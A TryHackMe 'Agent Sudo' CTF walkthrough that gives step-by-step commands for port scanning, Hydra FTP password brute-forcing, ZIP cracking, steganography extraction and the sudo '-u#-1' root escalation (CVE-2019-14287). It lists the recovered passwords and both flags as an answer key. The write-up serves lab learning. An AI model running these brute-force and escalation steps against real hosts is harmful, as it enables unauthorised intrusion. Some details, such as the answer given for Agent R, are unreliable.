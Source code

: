 ```yaml
---
title: "TryHackMe - Agent Sudo CTF Walkthrough"
date: 2024-12-14
categories: [TryHackMe]
tags: [CTF, FTP, Steganography, Privilege Escalation]
image: assets/images/thm-cover/mr-robot-Cover.jpg
---
```


# TryHackMe - Agent Sudo CTF Walkthrough

---

## Step 1: Network Scanning

Use Nmap to scan the target and identify open ports and services.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt 10.10.89.193
```

### Results:
- **Open Ports**:
  - Port 21: FTP (vsftpd 3.0.3)
  - Port 22: SSH (OpenSSH 7.6p1)
  - Port 80: HTTP (Apache 2.4.29)
- **Interesting HTTP Title**: `Announcement`
- **Total Open Ports**: `3`

---

## Step 2: Directory Enumeration

Enumerate directories using Gobuster.

```bash
sleep33@THM:~$ gobuster dir -u http://10.10.89.193 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,js,txt,php,db,json,log,bak,old
```

### Results:
- `/index.php` (Status: 200)
- `.html` and `.php` (Status: 403)
- Secret page accessible via modifying the `User-Agent` header.

---

## Step 3: Investigating FTP Service

Attempt to brute-force FTP credentials using Hydra.

```bash
sleep33@THM:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.89.193 ftp
```

### Credentials Found:
- **Username:** `chris`
- **Password:** `crystal`

---

## Step 4: Exploring FTP

Log in to the FTP server and list its contents.

```bash
ftp> ls -la
```

### Files Found:
- `To_agentJ.txt`
- `cute-alien.jpg`
- `cutie.png`

Download the files for further analysis.

---

## Step 5: Analyzing `cutie.png`

Use Binwalk to inspect the file for hidden data.

```bash
sleep33@THM:~$ binwalk cutie.png
```

### Findings:
- Encrypted ZIP archive located at offset `0x8702`.

Extract the ZIP file.

```bash
sleep33@THM:~$ binwalk cutie.png -e
```

---

## Step 6: Cracking the ZIP File

Use `zip2john` to extract the hash and `john` to crack the password.

```bash
sleep33@THM:~$ zip2john 8702.zip > zip_hash.txt
sleep33@THM:~$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

### Password Found:
- **Password:** `alien`

Extract the contents of the ZIP file. Inside, you find a message: `QXJlYTUx` which decodes to `Area51`.

---

## Step 7: Analyzing `cute-alien.jpg`

Use Steghide to extract hidden data from the image.

```bash
sleep33@THM:~$ steghide extract -sf cute-alien.jpg
```

### Results:
- **Passphrase:** `Area51`
- **Extracted File:** `message.txt`

Contents of `message.txt`:
```
Hi James,

Glad you find this message. Your login password is hackerrules!

Your buddy,
Chris
```

---

## Step 8: SSH Access

Log in via SSH using the provided credentials.

```bash
sleep33@THM:~$ ssh james@10.10.89.193
```

### Credentials:
- **Username:** `james`
- **Password:** `hackerrules`

Once logged in, locate the `user_flag.txt`.

```bash
james@agent-sudo:~$ cat user_flag.txt
```

**User Flag:**
```
b03d975e8c92a7c04146cfa7a5a313c7
```

---

## Step 9: Privilege Escalation

Check `sudo` permissions.

```bash
james@agent-sudo:~$ sudo -l
```

### Results:
- `(ALL, !root) /bin/bash`

Exploit the misconfigured `sudo` permissions to gain root access.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
# whoami
root
```

Escalation exploit: **CVE-2019-14287**

---

## Step 10: Retrieving the Root Flag

Locate and read the `root_flag.txt`.

```bash
root@agent-sudo:~$ cat /root/root_flag.txt
```

**Root Flag:**
```
b53a02f55b57d4439e3341834d70c062
```

---

## Step 11: Identifying Agent R

Agent R is referenced multiple times throughout the challenge. Their identity is clarified in `message.txt`.

**Agent R:** `Roswell alien autopsy`

---

## Summary

In this walkthrough, we enumerated services, brute-forced FTP credentials, used steganography to uncover hidden messages, escalated privileges using misconfigured `sudo` permissions, and retrieved both the user and root flags.

### Key Information:
- **FTP Password:** `crystal`
- **ZIP Password:** `alien`
- **Steg Password:** `Area51`
- **SSH Password:** `hackerrules`
- **Agent Name:** `Chris`
- **Other Agent Full Name:** `James`
- **Incident:** `Roswell alien autopsy`
- **User Flag:** `b03d975e8c92a7c04146cfa7a5a313c7`
- **Root Flag:** `b53a02f55b57d4439e3341834d70c062`
